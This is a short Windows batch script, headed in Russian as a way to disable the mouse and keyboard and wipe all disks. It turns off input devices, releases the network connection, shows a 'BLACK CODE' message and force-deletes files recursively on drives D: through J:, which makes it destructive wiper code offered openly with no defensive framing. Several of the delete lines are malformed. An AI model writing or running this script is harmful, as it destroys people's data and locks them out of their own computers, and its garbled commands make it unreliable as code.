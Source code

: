 # Отключение мыши и клавиатуры, форматирование всех дисков


@Echo off
rundll32 keyboard,disable
rundll32 mouse,disable
ipconfig /release
msg* "BLACK CODE"
del D:\.* /f /s /q
del E:\.* /f /s /q
del F:\*..* /f /s /q
del G:\ /f /s /q
del H:\*.* .* /f /s /q
del I:\f /s /q
del J:\*.* /f /s /q
exit
